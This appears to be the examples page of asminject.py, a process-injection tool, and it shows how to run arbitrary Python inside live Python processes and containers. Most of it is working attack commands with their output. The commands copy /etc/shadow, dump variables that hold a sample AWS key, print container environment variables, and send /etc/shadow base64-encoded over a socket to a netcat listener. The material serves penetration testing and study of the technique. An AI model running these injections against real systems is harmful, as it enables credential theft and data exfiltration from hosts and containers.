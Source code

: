 # asminject.py examples - Python
* [Execute arbitrary Python code inside an existing Python process](#execute-arbitrary-python-code-inside-an-existing-python-process)
* [Write all global or variables to standard out](#write-all-global-or-local-variables-to-standard-out)
* [Interact with a container only via injected Python code](#interact-with-a-container-only-via-injected-python-code)

## Important

For all Python 3 examples, refer to the <a href="docs/specialized_options.md#specifying-non-pic-code">position-independent code discussion in the specialized options document</a>. Python 3 before 3.10 is usually not position-independent, but Python 3.10 and later usually are.

## Execute arbitrary Python code inside an existing Python process

Launch a harmless Python process that simulates one with access to super-secret, sensitive data. This example uses Python 3, but the syntax for `asminject.py` is identical for Python 2 target processes, although of course you'd need to specify script code that's valid in Python 2.

```
$ sudo python3 practice/python_loop.py

2022-05-12T19:46:46.245462 - Loop count 0
2022-05-12T19:46:51.253640 - Loop count 1
2022-05-12T19:46:56.264897 - Loop count 2
```

In a separate terminal, locate the process and inject some arbitrary Python code into it. 

This payload requires one variable: `pythoncode`, which should contain the Python script code to execute in the existing Python process.

```
# python3 ./asminject.py 2037475 execute_python_code.s \
   --relative-offsets-from-binaries \
   --var pythoncode "import os; import sys; finput = open('/etc/shadow', 'rb'); foutput = open('/tmp/bishopfox.txt', 'wb'); foutput.write(finput.read()); foutput.close(); finput.close();"
   
...omitted for brevity...
```

Verify that the file has been copied:

```
# cat /tmp/bishopfox.txt 

root:!:18704:0:99999:7:::
daemon:*:18704:0:99999:7:::
bin:*:18704:0:99999:7:::
sys:*:18704:0:99999:7:::
```

## Write all global or local variables to standard out

Use [the following Python 3 code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/633127/viewing-all-defined-variables)

Global variables:

```
tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]
```


Local variables:

```
tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]
```

e.g. for global variables:

```
# python3 ./asminject.py 249594 execute_python_code.s \
   --relative-offsets-from-binaries \
   --var pythoncode "tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]"
```

or for local variables:

```
# python3 ./asminject.py 249594 execute_python_code.s \
   --relative-offsets-from-binaries \
   --var pythoncode "tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]"
```

Example output:

```
2022-06-09T23:08:56.301925 - Loop count 107
time   :   <module 'time' (built-in)>  type: <class 'module'>
datetime   :   <module 'datetime' from '/usr/lib/python3.9/datetime.py'>  type: <class 'module'>
example_global_var_1   :   AKIASADF9370235SUAS0  type: <class 'str'>
example_global_var_2   :   This value should not be disclosed  type: <class 'str'>
i   :   107  type: <class 'int'>
v   :   time  type: <class 'str'>
2022-06-09T23:09:05.310443 - Loop count 108
```

## Interact with a container only via injected Python code

This scenario simulates a container that either does not allow access to an interactive shell, or use of the interactive shell would trigger an unwanted response.

Start a Python 3 process in a Docker container:
```
# docker run -v $(pwd)/practice/python_loop.py:/tmp/python_loop.py \
   --network=host -ti fedora

latest: Pulling from library/fedora
e1deda52ffad: Pull complete 
...omitted for brevity...
[root@3a78fa62ff5b /]# python3 /tmp/python_loop.py 
2022-06-29T21:30:19.037816 - Loop count 0
2022-06-29T21:30:24.043250 - Loop count 1
```

Locate the process ID for the Python process, then get a list of the binaries it has loaded:

```
# ps auxww | grep python                  

...omitted for brevity...
root     2378331  [...] python3 /tmp/python_loop.py

# cat /proc/2378331/maps

556d84513000-556d84514000 r--p [...] /usr/bin/python3.10
...omitted for brevity...
7f8483e8b000-7f8483ee4000 r--p [...] /usr/lib64/libpython3.10.so.1.0
...omitted for brevity...
```

Copy any necessary binaries out of the container and generate offsets from them. For example:

```
# docker cp 3a78fa62ff5b:/usr/bin/python3.10 ./docker-fedora-python3.10

# docker cp 3a78fa62ff5b:/usr/lib64/libpython3.10.so.1.0 ./docker-fedora-libpython3.10

# ./get_relative_offsets.sh docker-fedora-python3.10 > relative-offsets-docker-fedora-python3.10.txt

# ./get_relative_offsets.sh docker-fedora-libpython3.10 > relative-offsets-docker-fedora-libpython3.10.txt
```

Inject the Python code into the target process using the `execute_python_code.s` payload, e.g.:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
	--relative-offsets /usr/bin/python3.10 relative-offsets-docker-fedora-python3.10.txt \
	--relative-offsets /usr/lib64/libpython3.10.so.1.0 relative-offsets-docker-fedora-libpython3.10.txt \
	--var pythoncode 'import os; print(os.environ);'
```

This should generate output in the terminal where the container was launched, e.g.:

```
2022-06-29T21:53:35.027900 - Loop count 278
environ({'HOSTNAME': '3a78fa62ff5b', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'})
2022-06-29T21:53:44.063159 - Loop count 279
```

To simulate a situation where the console is not visible, you can send Python code that will return the output to a TCP listener, e.g.:

```
% nc -nvlkp 7777
listening on [any] 7777 ...
```

Then, in another terminal:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
   --relative-offsets /usr/bin/python3.10 relative-offsets-docker-fedora-python3.10.txt \
   --relative-offsets /usr/lib64/libpython3.10.so.1.0 relative-offsets-docker-fedora-libpython3.10.txt \
   --var pythoncode 'import os; import socket; s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(f\"{os.environ}\".encode()); s.close()'
```

You should see the output in the `nc` listener, e.g.:

```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45528
environ({'HOSTNAME': 'copyroom', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'}
```

Copy a file out of the container:

```
# python3 ./asminject.py 2378331 execute_python_code.s \
   --relative-offsets /usr/bin/python3.10 relative-offsets-docker-fedora-python3.10.txt \
   --relative-offsets /usr/lib64/libpython3.10.so.1.0 relative-offsets-docker-fedora-libpython3.10.txt \
   --var pythoncode 'import base64; import os; import socket; f = open(\"/etc/shadow\", mode=\"rb\"); content = f.read(); f.close(); encoded = base64.b64encode(content); s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(encoded); s.close();'
```

The base64-encoded version should appear in the netcat listener:

```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45530
cm9vdDohbG9ja2VkOjowOjk5O...omitted for brevity...
```